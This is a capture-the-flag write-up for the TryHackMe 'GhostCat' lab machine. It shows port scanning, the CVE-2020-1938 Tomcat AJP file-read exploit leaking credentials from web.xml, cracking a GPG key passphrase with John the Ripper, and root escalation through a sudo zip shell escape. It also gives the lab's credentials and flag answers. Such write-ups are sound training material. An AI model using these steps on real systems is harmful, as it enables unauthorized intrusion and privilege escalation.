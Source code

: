 **Are you able to complete the challenge?  
**The machine may take up to 5 minutes to boot and configure.

  

_Admins Note: This room contains inappropriate content in the form of a username that contains a swear word and should be noted for an educational setting. - Dark_


# 1
Compromise this machine and obtain user.txt

`nmap -sS $target -oG output.txt`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-19 15:54 AEST
Nmap scan report for 10.10.92.234
Host is up (0.27s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

`nmap -sS 10.10.92.234 -T 4 -sV --osscan-guess`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


`dirb http://10.10.92.234:8080/ /usr/share/wordlists/dirb/common.txt`

`nmap -sU -T 4 10.10.92.234 -n`

`nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 10.10.92.234` demonstrates that Jserve is running

https://github.com/dacade/CVE-2020-1938

`python3 ./tomcat.py 10.10.92.234 -f /WEB-INF/web.xml -p 8009`

```
Getting resource at ajp13://10.10.92.234:8009/hissec
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

We can now ssh as the user `skyfuck`


`uname -a`
`Linux ubuntu 4.4.0-174-generic #204-Ubuntu SMP Wed Jan 29 06:41:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux`

We can see we have a `credential.pgp` file and an `.asc` file

```
-rw------- 1 skyfuck skyfuck  136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Feb 18 22:14 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
```


Lets import the `.asc` file
`gpg --import tryhackme.asc`

Attempt to decrypt
`gpg --decrypt credential.pgp` fails asking for a passphrase.  The credentials for the user did not work.

Copy the files to our machine
Install `pgpdump` and check it
`pgpdump -g credential.pgp`
```
Old: Public-Key Encrypted Session Key Packet(tag 1)(270 bytes)
        New version(3)
        Key ID - 0x61E104A66184FBCC
        Pub alg - ElGamal Encrypt-Only(pub 16)
        ElGamal g^k mod p(1017 bits) - ...
        ElGamal m * y^k mod p(1021 bits) - ...
                -> m = sym alg(1 byte) + checksum(2 bytes) + PKCS-1 block type 02
New: Symmetrically Encrypted and MDC Packet(tag 18)(119 bytes)
        Ver 1
        Encrypted data [sym alg is specified in pub-key encrypted session key]
                (plain text + MDC SHA1(20 bytes))
```


import the asc
`gpg --import tryhackme.asc` without a passphrase
`gpg2john tryhackme.asc > hash`
`john --format=gpg --wordlist=rockyou.txt hash`
gives us the passphrase of `alexandru`

Back on the target, `gpg -d credential.pgp` using a passprase of `alexandru` we get a new credential
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

Looking at `/etc/passwd` this is an account.

We can logon and find the user flag

Answer: 
`THM{GhostCat_1s_so_cr4sy}`

# 2
Escalate privileges and obtain root.txt

`id` shows we are a member of a number of groups
`uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)`

`sudo -l` shows we can run `/usr/bin/zip` as sudo.
GTFO bins shows sudo as zip.

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

`cat /root/root.txt` gives us
`THM{Z1P_1S_FAKE}`

Answer: `THM{Z1P_1S_FAKE}`

